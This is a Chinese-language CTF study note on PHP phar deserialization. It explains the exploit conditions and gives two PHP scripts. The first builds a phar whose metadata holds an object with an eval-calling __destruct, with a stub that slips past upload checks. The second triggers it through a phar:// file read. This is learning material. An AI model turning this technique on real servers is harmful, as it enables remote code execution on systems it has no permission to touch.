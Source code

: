 
## **phar序列化**
phar序列化学习
<https://www.cnblogs.com/CoLo/p/16786627.html>

phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。


利用条件
```
ctf题中php.ini中的phar.readonly选项，需要为Off（默认是on）

1、phar文件能够上传至服务器 
//即要求存在file_get_contents()、fopen()这种函数

2、要有可利用的魔术方法
//这个的话用一位大师傅的话说就是利用魔术方法作为"跳板"

3、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
//一般利用姿势是上传Phar文件后通过伪协议Phar来实现反序列化，伪协议Phar格式是`Phar://`这种，如果这几个特殊字符被过滤就无法实现反序列化
```
![](.topwrite/assets/image_1728379138816.png)

## **案例**
一般ctf中审计出代码中的可利用类，比如这里的test类有魔术方法。
生成phar文件，访问生成phartest.phar。
```
<?php 
class test{
    public $name="qwq";
    function __destruct()
    {
         eval($this->name);
    }
}
$a = new test();
$a->name="phpinfo();";
$phartest=new phar('phartest.phar',0);//后缀名必须为phar
$phartest->startBuffering();//开始缓冲 Phar 写操作
$phartest->setMetadata($a);//自定义的meta-data存入manifest
$phartest->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phartest->addFromString("test.txt","test");//添加要压缩的文件
$phartest->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```
将phartest.phar文件上传目标服务器。
再使用phar://伪协议去触发，实现反序列化后通过利用类代码执行。
```
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://phartest.phar/test.txt');
echo $phardemo;
```

